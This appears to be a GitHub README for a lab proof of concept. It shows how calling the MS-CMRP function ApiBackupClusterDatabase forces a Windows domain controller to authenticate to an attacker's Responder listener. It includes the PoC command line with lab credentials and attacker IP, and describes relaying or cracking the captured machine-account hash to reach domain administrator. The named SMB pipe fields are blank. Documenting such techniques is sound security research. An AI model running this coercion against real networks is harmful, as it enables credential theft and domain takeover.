 # MS-CMRP - Remote call to ApiBackupClusterDatabase (opnum 104)

## Summary

+ **Protocol**: [[MS-CMRP]: Failover Cluster: Management API (ClusAPI) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-cmrp/ba4117c0-530e-4e70-a085-4b4cf5bbf193)

+ **Protocol UUID**: b97db8b2-4c63-11cf-bff6-08002be23f2f

+ **Protocol version**: 0.0

+ **SMB Named pipe**: ``

+ **Function name**: [`ApiBackupClusterDatabase`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-cmrp/99990857-f857-402e-8018-b7eaca1fc6c1)

+ **Function operation number**: `104`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-CMRP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-cmrp/ba4117c0-530e-4e70-a085-4b4cf5bbf193) protocol (with uuid `b97db8b2-4c63-11cf-bff6-08002be23f2f` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-CMRP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-cmrp/ba4117c0-530e-4e70-a085-4b4cf5bbf193) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-CMRP]: Failover Cluster: Management API (ClusAPI) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-cmrp/ba4117c0-530e-4e70-a085-4b4cf5bbf193) and allows to call RPC functions of this protocol. We will then call the remote [`ApiBackupClusterDatabase`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-cmrp/99990857-f857-402e-8018-b7eaca1fc6c1) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
ApiBackupClusterDatabase('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
error_status_t ApiBackupClusterDatabase(
   [in, string] LPCWSTR lpszPathName,
   [out] error_status_t *rpc_status
 );
```

## References

+ Documentation of protocol [MS-CMRP]: Failover Cluster: Management API (ClusAPI) Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-cmrp/ba4117c0-530e-4e70-a085-4b4cf5bbf193

+ Documentation of function `ApiBackupClusterDatabase`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-cmrp/99990857-f857-402e-8018-b7eaca1fc6c1
